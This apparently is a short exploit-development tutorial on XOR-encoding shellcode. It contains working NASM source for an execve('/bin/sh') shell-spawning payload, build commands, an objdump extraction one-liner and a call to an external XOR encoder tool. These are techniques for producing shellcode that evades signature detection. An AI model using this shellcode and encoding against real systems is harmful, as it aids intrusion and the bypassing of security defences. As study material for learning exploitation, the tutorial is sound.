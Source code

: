 # XOR Encoder

## Basic XOR Encoding/Decoding
```ASM
(A XOR B) XOR B = A
```

## XOR Encoding Process
#### 1) Create execve_04_sh_stack.nasm file
```ASM
global _start

section .text

_start:

	xor eax, eax			; Preparing Nulls in EAX register
	push eax			; Pushing the first Null DWORD
	
	push 0x68732f6e			; //bin/sh in reverse order
	push 0x69622f2f
	
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	
	; syscall()
	mov al, 0xb
	int 0x80
```
#### 2) Compile it
```bash
$ nasm -f elf32 -o execve_04_sh_stack execve_04_sh_stack.nasm
$ ld -o execve_04_sh_stack execve_04_sh_stack.o
```
#### 3) Extract shellcode from the binary
```bash
# This will only outputs the shellcode with copy and paste friendly format
# https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump

objdump -d ./PROGRAM | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```
#### 4) XOR the extracted shellcode
```bash
https://github.com/bigb0sss/XOREncoder

./XOREncoder.py -s "<Shellcode>" -k "<Key>"
```

